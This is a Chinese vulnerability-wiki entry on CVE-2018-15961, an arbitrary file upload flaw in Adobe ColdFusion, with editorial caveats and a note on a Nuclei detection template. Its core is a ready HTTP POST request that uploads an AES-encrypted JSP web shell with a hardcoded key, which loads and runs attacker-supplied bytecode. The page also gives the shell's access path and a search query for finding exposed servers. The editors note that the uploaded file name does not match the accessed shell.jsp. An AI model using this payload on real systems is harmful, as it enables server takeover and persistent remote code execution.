



# Adobe ColdFusion upload.cfm 任意文件上传漏洞 CVE-2018-15961

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响upload.cfm可达、允许写JSP且上传目录由JSP引擎处理；账号前提未说明
- 证据范围：实际载荷是AES JSP加载器不是普通文件检测，上传文件名与访问文件名不一致

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 影响版本只Adobe ColdFusion，无版本/补丁
- filename为散列.jsp但后文访问shell.jsp，没有重命名说明
- GET访问不能单独证明这个仅POST加载字节码的载荷执行
- HTTP代码块错误标PHP，缺响应文本/上传路径确认

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Adobe ColdFusion存在任意文件上传漏洞，通过漏洞攻击者可上传任意文件控制服务器

## 漏洞影响

```
Adobe ColdFusion 
```

## 网络测绘

```
app="Adobe-ColdFusion" 
```

## 漏洞复现

产品官网



发送数据包上传任意文件

```http
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/upload.cfm HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 918
Content-Type: multipart/form-data; boundary=e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Accept-Encoding: gzip

--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="file"; filename="b79f4282c451e975c357d9616acea7ba.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0
Content-Disposition: form-data; name="path"

path
--e9fb732e96144291860c4d742145cdabf98a4ec5cbe2a91aec6dc17461a0--
```



再访问路径 **/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/shell.jsp**



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）


## 公开验证资料补证（2026-10-03）

固定 Nuclei 主文件给出了上传与执行两步结果链：经 ColdFusion CKEditor 的 upload.cfm 上传 JSP，再读取 uploadedFiles 下该随机命名 JSP，要求响应出现由 JSP 计算得到的 CVE 标识 MD5。匹配必须发生在后续服务端处理结果中，普通上传 200、文件名返回或版本号不能代替代码执行证明。

实际环境需相应上传入口可达、目录允许 JSP 处理，并具有来源版本/部署条件。模板不能证明所有 ColdFusion 实例都开启同样映射；完整补丁构建仍应以厂商公告逐项核对。验证留下 JSP 文件并执行服务端 Java 代码，恢复时需要只处理测试生成的对象。

本次全文阅读了模板，未执行上传、JSP 或目标请求。上文原始请求和值保持不变，来源的预期标记不等于本库取得过真实响应。

- 已全文审阅的固定技术主文件：https://github.com/projectdiscovery/nuclei-templates/blob/9e93c63782dbb2b6160e068710d6240f418a3ed6/http/cves/2018/CVE-2018-15961.yaml
